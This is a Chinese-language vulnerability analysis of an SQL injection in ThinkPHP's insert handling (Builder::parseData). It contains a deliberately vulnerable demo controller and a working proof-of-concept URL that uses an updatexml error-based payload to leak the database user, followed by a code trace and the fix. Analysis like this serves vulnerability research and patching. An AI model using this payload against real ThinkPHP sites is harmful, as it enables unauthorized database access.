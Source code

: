5.0.13 \<= Thinkphp \<= 5.0.15 & 5.1.0 \<= Thinkphp \<= 5.1.5
=============================================================

一、漏洞简介
------------

本篇文章，将分析 **ThinkPHP** 中存在的 **SQL注入** 漏洞（ **insert**
方法注入）。本次漏洞存在于 **Builder** 类的 **parseData**
方法中。由于程序没有对数据进行很好的过滤，将数据拼接进 **SQL**
语句，导致 **SQL注入漏洞** 的产生。

二、漏洞影响
------------

**5.0.13\<=ThinkPHP\<=5.0.15** 、 **5.1.0\<=ThinkPHP\<=5.1.5** 。

三、复现过程
------------

通过以下命令获取测试环境代码：

    composer create-project --prefer-dist topthink/think=5.0.15 tpdemo

将 **composer.json** 文件的 **require** 字段设置成如下：

    "require": {
        "php": ">=5.4.0",
        "topthink/framework": "5.0.15"
    }

然后执行 `composer update` ，并将
**application/index/controller/Index.php** 文件代码设置如下：

    <?php
    namespace app\index\controller;

    class Index
    {
        public function index()
        {
            $username = request()->get('username/a');
            db('users')->insert(['username' => $username]);
            return 'Update success';
        }
    }

在 **application/database.php** 文件中配置数据库相关信息，并开启
**application/config.php** 中的 **app\_debug** 和 **app\_trace**
。创建数据库信息如下：

    create database tpdemo;
    use tpdemo;
    create table users(
        id int primary key auto_increment,
        username varchar(50) not null
    );

### poc

    http://0-sec.org/index/index/index?username[0]=inc&username[1]=updatexml(1,concat(0x7,user(),0x7e),1)&username[2]=1

访问链接，即可触发 **SQL注入漏洞** 。（没开启 **app\_debug** 是无法看到
**SQL** 报错信息的）

![1.png](./resource/5.0.13<=Thinkphp<=5.0.15sql注入漏洞/media/rId25.png)

### 漏洞分析

![2.png](./resource/5.0.13<=Thinkphp<=5.0.15sql注入漏洞/media/rId27.png)

首先在官方发布的 **5.0.16**
版本更新说明中，发现其中提到该版本包含了一个安全更新，我们可以查阅其
**commit** 记录，发现其修改的 **Builder.php** 文件代码比较可疑。

![3.png](./resource/5.0.13<=Thinkphp<=5.0.15sql注入漏洞/media/rId28.png)

接着我们直接跟着上面的攻击 **payload** 来看看漏洞原理。首先，
**payload** 数据经过 **ThinkPHP** 内置方法的过滤后（不影响我们的
**payload** ），直接进入了 **\$this-\>builder** 的 **insert**
方法，这里的 **\$this-\>builder** 为 **\\think\\db\\builder\\Mysql**
类，代码如下：

![4.png](./resource/5.0.13<=Thinkphp<=5.0.15sql注入漏洞/media/rId29.png)

而 **Mysql** 类继承于 **Builder** 类，即上面的
**\$this-\>builder-\>insert()** 最终调用的是 **Builder** 类的 **insert**
方法。在 **insert** 方法中，我们看到其调用 **parseData**
方法来分析并处理数据，而 **parseData** 方法直接将来自用户的数据
**\$val** 进行了拼接返回。我们的恶意数据存储在 **\$val\[1\]**
中，虽经过了 **parseKey**
方法处理，当丝毫不受影响，因为该方法只是用来解析处理数据的，并不是清洗数据。

![5.png](./resource/5.0.13<=Thinkphp<=5.0.15sql注入漏洞/media/rId30.png)

上面，我们看到直接将用户数据进行拼接。然后再回到 **Builder** 类的
**insert** 方法，直接通过替换字符串的方式，将 **\$data** 填充到 **SQL**
语句中，进而执行，造成 **SQL注入漏洞** 。

![6.png](./resource/5.0.13<=Thinkphp<=5.0.15sql注入漏洞/media/rId31.png)

至此，我们已将整个漏洞分析完了。实际上，上面的 **switch**
结构中，3种情况返回的数据都有可能造成 **SQL** 注入漏洞，但是在观察
**ThinkPHP** 官方的修复代码中，发现其只对 **inc** 和 **dec**
进行了修复，而对于 **exp** 的情况并未处理，这是为什么呢？

实际上， **exp** 的情况早在传入 **insert** 方法前就被 **ThinkPHP**
内置过滤方法给处理了，如果数据中存在 **exp** ，则会被替换成 **exp空格**
，这也是为什么 **ThinkPHP** 官方没有对 **exp**
的情况进行处理的原因了。具体内置过滤方法的代码如下：

![7.png](./resource/5.0.13<=Thinkphp<=5.0.15sql注入漏洞/media/rId32.png)

### 漏洞修复

![8.png](./resource/5.0.13<=Thinkphp<=5.0.15sql注入漏洞/media/rId34.png)

### 攻击总结

最后，再通过一张攻击流程图来回顾整个攻击过程。

![9.png](./resource/5.0.13<=Thinkphp<=5.0.15sql注入漏洞/media/rId36.png)

参考链接
--------

> https://github.com/Mochazz/ThinkPHP-Vuln
